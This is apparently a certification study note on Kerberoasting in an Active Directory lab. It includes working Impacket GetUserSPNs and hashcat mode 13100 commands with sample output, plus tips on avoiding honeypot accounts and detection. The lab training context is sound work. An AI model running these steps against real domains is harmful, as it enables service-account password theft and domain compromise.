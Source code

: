 ```yaml
---

### 🔥  **Kerberoasting Overview** 🔥

---
```


### 📝 **Summary**:

**Kerberoasting** is a method used by attackers to extract **Kerberos service tickets** (TGS) for **service accounts** in **Active Directory (AD)** and then **crack the tickets offline** to recover the service account’s password. The attack specifically targets service accounts that have **Service Principal Names (SPNs)** registered in AD. The attacker requests **TGS tickets** for these service accounts, and the Domain Controller provides them without needing the service account’s password. The attacker then cracks the encrypted ticket offline to reveal the password. This attack is particularly effective when targeting service accounts with **weak passwords** and can lead to a **domain compromise** if higher-privileged service accounts are targeted.

**Key Objectives**:

1. **Automatically find SPNs** in AD that are linked to service accounts.
2. **Extract service tickets (TGS)** for those SPNs.
3. **Crack the ticket offline** to reveal the service account’s password.
4. **Use cracked credentials** to access services or escalate privileges.

---

### 💻 **Detailed Notes**:

### Step-by-Step Walkthrough:

1. **Enumerate Service Accounts (SPNs)**:
    - Use **Impacket’s** `GetUserSPNs.py` tool to list service accounts with **Service Principal Names (SPNs)**:
        
        ```bash
        sudo GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 192.168.164.138 -request
        
        ```
        
    - This command requests **TGS (Ticket Granting Service)** tickets tied to these accounts from the Domain Controller (DC).
    
    Example output:
    
    ```
    ServicePrincipalName                  Name        MemberOf                                                     PasswordLastSet      LastLogon
    ------------------------------------  ----------  -----------------------------------------------------------  -------------------  ---------
    HYDRA-DC/SQLServer.MAREL.local:60111  SQLService  CN=Group Policy Creator Owners,OU=Groups,DC=MARVEL,DC=local  2024-09-17 11:24:56  <never>
    
    ```
    
2. **Identify Honey Pots**:
    - If the **LastLogon** field shows "<never>", 🚨 **this might be a honey pot** (a trap set by admins). Proceed carefully!
3. **Store the Extracted Hash**:
    - Save the TGS hash to a file for offline cracking:
        
        ```bash
        echo "$krb5tgs$23$*SQLService$..." > krb.txt
        
        ```
        
4. **Crack the Ticket Using Hashcat**:
    - Use **Hashcat** in **mode 13100** to crack the ticket offline:
        
        ```bash
        hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt
        
        ```
        
    - **Mode 13100** is used for **Kerberos 5 TGS-REP** tickets.
    
    Example output:
    
    ```
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
    Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
    Time.Estimated...: Sun Sep 22 21:50:14 2024 (11 secs)
    
    ```
    
    - **Password example**: **MYpassword123#** (cracked service account password).
5. **Use Cracked Credentials**:
    - With the cracked password, you now have access to the **SQLService** account and can potentially escalate privileges to compromise the **Domain Controller**.

---

### 💡 **Abbreviations & Definitions**:

- **SPN (Service Principal Name)**: A unique identifier for services running on specific AD accounts (e.g., web servers, databases).
- **TGS (Ticket Granting Service)**: A ticket used in Kerberos to authenticate users to services in AD.
- **TGT (Ticket Granting Ticket)**: A ticket used to request service tickets (TGS) from the DC.
- **DC (Domain Controller)**: The central server in an AD environment that manages authentication and permissions.
- **Impacket**: A Python toolkit for working with network protocols, including Kerberos.

---

### 🚨 **Critical Mentions & Exam Traps**:

- **Honey Pots**: 🚨 **Look out for accounts with `<never>` in the LastLogon field**. These might be traps set by admins to catch attackers. Be careful when proceeding with those.
- **Password Cracking**: Cracking the **TGS ticket** offline using **Hashcat** is a stealthy part of this attack because the cracking process doesn’t generate any network activity.
- **SPNs**: Focus your enumeration efforts on **non-admin service accounts** with SPNs registered in AD. These accounts tend to have weaker passwords and fewer security controls.
- **Offline Cracking**: The **offline** nature of cracking means that you can avoid detection. The actual cracking is done outside the network, so admins won't see it happening. 💡 This is a big advantage of Kerberoasting!

💡 **Pro Tip**: **Rotate service account passwords** regularly and ensure strong password policies are enforced to protect against Kerberoasting attacks.

---

### **Final Exam Tips** 📝:

- **Offline cracking** is key—take your time with the cracking phase because network admins can’t detect this part of the attack.
- Be aware of **honey pot accounts**! If a service account hasn’t logged in recently, it could be a trap to lure attackers.
- If you don’t crack a ticket using **Hashcat**, try other wordlists or switch to **John the Ripper** for an alternative approach.

---